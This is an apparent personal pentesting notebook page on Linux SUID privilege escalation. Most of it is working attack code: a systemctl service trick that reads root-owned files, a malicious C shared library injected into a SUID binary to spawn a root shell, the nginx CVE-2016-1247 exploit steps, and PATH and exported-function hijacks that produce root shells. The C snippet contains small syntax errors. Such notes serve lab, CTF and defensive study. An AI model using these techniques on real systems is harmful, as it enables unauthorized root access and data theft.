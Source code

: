 -- -
Abuse software that is vulnerable to being hijacked to run a shell command or file read or something it shouldn't because it has its SUID bit set and runs as root always. 
### General workflow
#### Enum
![[SUIDs#^ed7f08]]
#### Find Exploits
Go to [GTFOBins](https://gtfobins.github.io/#+suid) and search the output of above command. 

### Things I've Exploited
#### systemctl
#sytemctlexploit It is a file read exploit, so you won't get a shell, but you can read any file root can. 
```bash
TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
cat /tmp/output # outputs the file you wanted to read
```
### Shared Object Injection

^2ec112

#SOInjection 
#### Enum
![[SUIDs#^8b428f]]
#### Exploit
```bash
# So this will be an example, the specifics in your situation will depend on the situation you are in. 

# in this example, it was looking for the file:
# /home/user/.config/libcalc.so
# .config nor libcalc.so exist at those locations, so we will make the directory and create some C code that will hijack execution when suid-so picks it up
cd /home/user
mkdir .config
cd .config
vim libcalc.c
```
**libcalc.c**
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p")
}
```
#### Compile and exploit
```bash
# Compile to the expected location with the expected file
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/.config/libcalc.c

# run original suid program
/usr/local/bin/suid-so
```

#### CVE-2016-1247
#cve-2016-1247  [Explanation](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html), If certain conditions are met, a user www-data is able to escalate privileges to root. 
[[SUIDs#^14400b|Enum]]
##### Exploit
Assuming enum was done and the conditions are right, download script from [here](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html) , and [[Dark Arts/File Transfer/Linux|file transfer]] it to the target, then simply run the script: 

```bash
./nginxed-root.sh /var/log/nginx/error.log

# then you need to wait for the nginx service to be restarted, or it can manually be done by root, ssh as root into server:
invoke-rc.d nginx rotate >/dev/null 2>&1

# obviously if you already have root to force it, this is useless so practically, you will need to sit and wait for nginx to restart for some other reason. 
```

#### Env Variables

^460797

This relies on weird/custom programs with suid bit set, there are 2 examples worked out here for two situations
1. Relative path used
2. Absolute path used

Which is used is determined through [[SUIDs|Enum]]
##### Relative Path
Obviously, the specifics of what program you are hijacking and which SUID you are running is different depending on the situation, but steps should more or less be the same except the name of the two programs here.
```bash 
# in this example, the output from strings revealed:
# service apache2 start
# and the vulnerable suid program in this example is
# /usr/local/bin/suid-env

# in this case, you can add to your $PATH and set a location you control to the front of your path, and write a program named "service" there so that when the SUID program is run, it calls to your malicious program rather than the real service program since it will check your controlled folder first. Since the calling program is root, that means your program will be run as root.

# so, write a program that spaws a shell then run SUID program

# Prepare malicious program and output to a directory you control
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c

# compile
gcc /tmp/service.c -o /tmp/service

# add your controlled directory to front of $PATH
export PATH=/tmp:$PATH

# run SUID program
/usr/local/bin/suid-env

# now you should have a root shell.
```

##### Absolute path
Obviously, the specifics of what program you are hijacking and which SUID you are running is different depending on the situation, but steps should more or less be the same except the name of the two programs here.
```bash
# in this example, the output from strings revealed:
# /usr/sbin/service apach2 start
# and the vulnerable suid program in this example is
# /usr/local/bin/suid-env

# in this case you will create a malicious function and make a symlink to it so that it's picked up by the vulnerable SUID program.

# Create malicious function
# malicious function copies /bin/bash to a controlled directory
# then, malicious function adds suid bit to copy of /bin/bash
# then, malicious function runs the copy of /bin/bash
# since the suid bit was set, it will be a root shell.
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

# set service program to refer to shell function, our malicious function, rather than running the actual program:
export -f /usr/sbin/service

# then just run the vulnerable suid program
/usr/local/bin/suid-env
```